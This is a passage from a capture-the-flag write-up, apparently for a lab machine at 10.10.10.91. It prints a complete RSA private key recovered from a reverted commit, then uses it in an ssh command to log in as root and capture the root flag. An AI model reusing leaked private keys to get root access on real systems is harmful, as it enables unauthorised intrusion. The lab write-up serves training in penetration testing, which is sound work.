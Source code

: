 Here is the key cleaned up:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
vr+5Ui0nD+YBKyYuiN+4CB8jSQvwOG+LlA3IGAzVf56J0WP9FILH/NwYW2iovTRK
nz1y2vdO3ug94XX8y0bbMR9Mtpj292wNrxmUSQ5glioqrSrwFfevWt/rEgIVmrb+
CCjeERnxMwaZNFP0SYoiC5HweyXD6ZLgFO4uOVuImILGJyyQJ8u5BI2mc/SHSE0c
F9DmYwbVqRcurk3yAS+jEbXgObupXkDHgIoMCwIDAQABAoIBAFaUuHIKVT+UK2oH
uzjPbIdyEkDc3PAYP+E/jdqy2eFdofJKDocOf9BDhxKlmO968PxoBe25jjjt0AAL
gCfN5I+xZGH19V4HPMCrK6PzskYII3/i4K7FEHMn8ZgDZpj7U69Iz2l9xa4lyzeD
k2X0256DbRv/ZYaWPhX+fGw3dCMWkRs6MoBNVS4wAMmOCiFl3hzHlgIemLMm6QSy
NnTtLPXwkS84KMfZGbnolAiZbHAqhe5cRfV2CVw2U8GaIS3fqV3ioD0qqQjIIPNM
HSRik2J/7Y7OuBRQN+auzFKV7QeLFeROJsLhLaPhstY5QQReQr9oIuTAs9c+oCLa
2fXe3kkCgYEA367aoOTisun9UJ7ObgNZTDPeaXajhWrZbxlSsOeOBp5CK/oLc0RB
GLEKU6HtUuKFvlXdJ22S4/rQb0RiDcU/wOiDzmlCTQJrnLgqzBwNXp+MH6Av9WHG
jwrjv/loHYF0vXUHHRVJmcXzsftZk2aJ29TXud5UMqHovyieb3mZ0pcCgYEAxR41
IMq2dif3laGnQuYrjQVNFfvwDt1JD1mKNG8OppwTgcPbFO+R3+MqL7lvAhHjWKMw
+XjmkQEZbnmwf1fKuIHW9uD9KxxHqgucNv9ySuMtVPp/QYtjn/ltojR16JNTKqiW
7vSqlsZnT9jR2syvuhhVz4Ei9yA/VYZG2uiCpK0CgYA/UOhz+LYu/MsGoh0+yNXj
Gx+O7NU2s9sedqWQi8sJFo0Wk63gD+b5TUvmBoT+HD7NdNKoEX0t6VZM2KeEzFvS
iD6fE+5/i/rYHs2Gfz5NlY39ecN5ixbAcM2tDrUo/PcFlfXQhrERxRXJQKPHdJP7
VRFHfKaKuof+bEoEtgATuwKBgC3Ce3bnWEBJuvIjmt6u7EFKj8CgwfPRbxp/INRX
S8Flzil7vCo6C1U8ORjnJVwHpw12pPHlHTFgXfUFjvGhAdCfY7XgOSV+5SwWkec6
md/EqUtm84/VugTzNH5JS234dYAbrx498jQaTvV8UgtHJSxAZftL8UAJXmqOR3ie
LWXpAoGADMbq4aFzQuUPldxr3thx0KRz9LJUJfrpADAUbxo8zVvbwt4gM2vsXwcz
oAvexd1JRMkbC7YOgrzZ9iOxHP+mg/LLENmHimcyKCqaY3XzqXqk9lOhA3ymOcLw
LS4O7JPRqVmgZzUUnDiAVuUHWuHGGXpWpz9EGau6dIbQaUUSOEE=
-----END RSA PRIVATE KEY-----
```

If they reverted it so quickly, maybe it was something sensitive.  On a hunch, we can see if it is root's private key and we may be able to use it to SSH as root into the box:
```bash
ssh -i old_authorized_key root@10.10.10.91
```

It looks like it worked, and we can recover the root flag!
![Root Flag](screenshots/14_root_flag.PNG)
